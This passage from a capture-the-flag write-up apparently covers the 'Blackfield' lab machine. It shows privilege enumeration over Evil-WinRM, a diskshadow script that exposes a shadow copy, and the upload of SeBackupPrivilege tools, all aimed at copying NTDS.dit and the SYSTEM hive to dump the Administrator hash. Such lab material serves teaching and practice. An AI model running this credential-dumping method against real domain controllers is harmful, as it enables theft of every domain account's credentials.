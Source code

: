 # Privilege Escalation

## Getting NTDS.dit and SYSTEM hive

Now that we have a foothold, let's run `whoami /priv` to see what privileges we have.


```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can see that we have the privilege SeBackupPrivilege and SeRestorePrivilege, this is our path to root.

I found [this](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf) document, which details how to get the NTDS.dit file from the box using our privileges. We can also save the SYSTEM registry hive using this privilege, with this combo, we can dump the Administrator hash.

First, we create a script to use with disk shadow.

```bash
finlay@kali:~/htb/blackfield$ cat disk_shadow.txt 
set context persistent nowriters#
add volume c: alias new1#
create#
expose %new1% z:#
```

Then we can download the SeBackupPrivilege modules from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

Now we can upload all these files to the machine using the `upload` command within evil-winrm.

![upload_files](/assets/img/posts/blackfield/upload_files.png)
